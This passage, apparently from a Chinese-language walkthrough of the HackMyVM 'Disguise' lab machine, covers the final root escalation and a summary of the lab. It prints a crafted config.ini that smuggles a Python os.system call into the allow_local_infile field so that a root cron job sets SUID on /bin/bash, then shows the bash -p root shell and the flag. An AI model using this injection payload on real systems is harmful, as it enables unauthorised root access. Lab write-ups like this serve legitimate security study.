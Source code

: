 查了一下 `mysql-connector-python` 的 `exploit`，google找不到，[[wx公众号](https://mp.weixin.qq.com/s/h3qOUrzhANfDJ0PuAJyc6w)](https://mp.weixin.qq.com/s/h3qOUrzhANfDJ0PuAJyc6w)找到了。信息收集的终点是wx公众号（滑稽）。
![image-20250516191958461](https://7r1umphk.github.io/image/20250516191958785.webp)

构造恶意的 `config.ini`：

```ini
[client]
user = dark_db_admin
password = Str0ngPassw0d1***
host = localhost
database = dark_shop
port = int(3306)
allow_local_infile=__import__('os').system('chmod u+s /bin/bash')
```

这个 `allow_local_infile` 配置项（或其他可利用的配置项）会被 `mysql.connector.connect` 解析并执行后面的Python代码，从而给 `/bin/bash` 加上SUID权限。

等待cron任务执行 (最多1分钟)。可以用 `pspy64` 监控。

```bash
# pspy64 输出中会看到
2025/05/16 07:19:01 CMD: UID=0     PID=16589  | sh -c chmod u+s /bin/bash
```

检查 `/bin/bash` 权限。

```bash
darksoul@disguise:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

成功加上SUID权限！执行 `bash -p` 获取root权限。

```bash
darksoul@disguise:~$ bash -p
bash-5.0# id
uid=1000(darksoul) gid=1000(darksoul) euid=0(root) groups=1000(darksoul)
bash-5.0# cat /root/root.txt
#Congratulations!!!
hmv{CVE-2025-21548}
```

成功获取root权限并读取 `/root/root.txt` 中的flag: `hmv{CVE-2025-21548}`。

# 八、总结

本次Disguise靶机的渗透过程涉及了Web应用层面的信息收集、漏洞扫描、子域名爆破，以及针对ECB加密模式下Cookie的巧妙伪造。后续通过对系统内部文件和进程的分析，发现了数据库凭证泄露和cron定时任务的配置不当，最终结合Python库的特性实现了权限提升至root。整个过程环环相扣，充分展现了信息收集和漏洞利用的重要性。